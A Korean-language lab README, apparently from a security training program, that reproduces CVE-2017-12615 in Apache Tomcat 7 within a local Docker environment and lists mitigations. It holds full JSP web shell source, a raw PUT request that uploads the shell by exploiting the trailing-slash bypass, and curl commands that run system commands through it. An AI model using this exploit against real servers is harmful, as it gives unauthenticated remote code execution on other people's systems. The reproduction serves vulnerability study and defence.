



# CVE-2017-12615

**Contributors**

-   [화이트햇스쿨4기 1반 김경훈](https://github.com/J0hnathanKim)

<br/>

### 요약
-   Apache Tomcat 7.0.0 ~ 7.0.79 버전에서, `conf/web.xml`의 `DefaultServlet`에 `readonly` 파라미터가 `false`로 설정되어 있을 경우 HTTP `PUT` 메서드를 통해 임의 파일을 서버에 업로드할 수 있음.
-   Tomcat은 기본적으로 `.jsp` 확장자로 끝나는 요청을 JSP 서블릿이 처리하도록 매핑하지만, 요청 경로 끝에 `/`(trailing slash)를 붙이면 이 확장자 검사를 우회하면서도 파일은 `.jsp`로 저장되는 특성이 있음. 이를 이용해 JSP 웹쉘을 업로드한 뒤 실행하면 원격 코드 실행(RCE)으로 이어짐.
-   `readonly=false`는 Tomcat 기본값(`true`)이 아니므로, 관리자가 별도로 설정을 변경한 환경에서만 취약함(과제 유의사항의 "단순 설정 실수"와는 달리, PUT 처리 로직 자체의 확장자 검증 우회라는 Tomcat 코드 결함이 핵심 원인).

References:

-  <https://nvd.nist.gov/vuln/detail/CVE-2017-12615>
-  <https://tomcat.apache.org/security-7.html>

<br/>

### 환경 구성 및 실행
**1. 취약한 Tomcat 7.0.79 환경을 빌드 및 실행**

```
docker compose up -d --build
```

-   `Dockerfile`은 공식 `tomcat:7.0.79-jre8` 이미지를 기반으로, `conf/web.xml`의 `DefaultServlet` 설정에 `readonly=false` 파라미터를 자동으로 주입함.
-   서버가 시작된 후 `http://your-ip:8080/`으로 접속하면 Tomcat 기본 페이지가 나타남.

**2. 취약 조건**

-   Tomcat 버전 7.0.0 ~ 7.0.79 (7.0.81에서 패치)
-   `web.xml`에 `readonly=false` 설정 (PUT/DELETE 등 쓰기 메서드 허용)
-   HTTP 메서드 제한(WAF, 프록시 등)이 없는 경우 원격에서 인증 없이 공격 가능

<br/>

### 재현 절차

**1. PUT 요청으로 JSP 웹쉘 업로드 (확장자 검증 우회)**

```
PUT /shell.jsp/ HTTP/1.1
Host: localhost:8080
Content-Type: application/octet-stream
Content-Length: 274
Connection: close

<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(new String[]{"sh", "-c", cmd});
        BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = br.readLine()) != null) {
            out.println(line);
        }
    }
%>
```

-   요청 경로를 `/shell.jsp/`(끝에 `/` 추가)로 보내면 `DefaultServlet`의 확장자 검사를 우회하면서도, 실제 저장되는 파일명은 `shell.jsp`가 됨.



**2. 업로드된 JSP 웹쉘로 임의 명령 실행**

```
http://localhost:8080/shell.jsp?cmd=id
```



<br/>

### PoC 코드

`shell.jsp` 파일 참고 (레포에 함께 포함). Windows PowerShell 기준, 아래 두 명령만으로 재현 가능함.

```powershell
# 1단계: 웹쉘 업로드
curl.exe -X PUT "http://127.0.0.1:8080/shell.jsp/" --data-binary "@shell.jsp"

# 2단계: 명령 실행 확인
curl.exe "http://127.0.0.1:8080/shell.jsp?cmd=id"
```

-   PowerShell에서는 반드시 `curl.exe`로 실행해야 함. `curl`만 입력하면 `Invoke-WebRequest` 별칭이 실행되어 `--data-binary` 옵션을 인식하지 못함.
-   1단계는 `PUT /shell.jsp/` 요청으로 웹쉘을 업로드함 (trailing slash로 확장자 검증 우회).
-   2단계는 업로드된 웹쉘에 `cmd=id` 파라미터를 전달해 명령 실행 결과를 확인함.

<br/>

### 실행 결과

2단계 `curl.exe` 명령 실행 시 `uid=... gid=...` 형태의 출력이 반환되면 임의 명령 실행에 성공한 것임

<br/>

### 대응 방안
-   `web.xml`의 `DefaultServlet`에서 `readonly` 파라미터를 반드시 기본값인 `true`로 유지함 (쓰기 메서드 비활성화).
-   Tomcat을 7.0.81 이상, 8.0/8.5/9.0의 패치된 버전으로 업그레이드함 (해당 버전부터 trailing slash 확장자 우회 로직이 수정됨).
-   프론트단 웹서버(Nginx 등) 또는 WAF에서 `PUT`, `DELETE` 등 불필요한 HTTP 메서드를 차단함.
-   업로드 디렉토리 및 웹 루트에 대해 실행 권한을 제거하는 등 파일 업로드 후 실행 방지 대책을 추가로 적용함.

<br/>
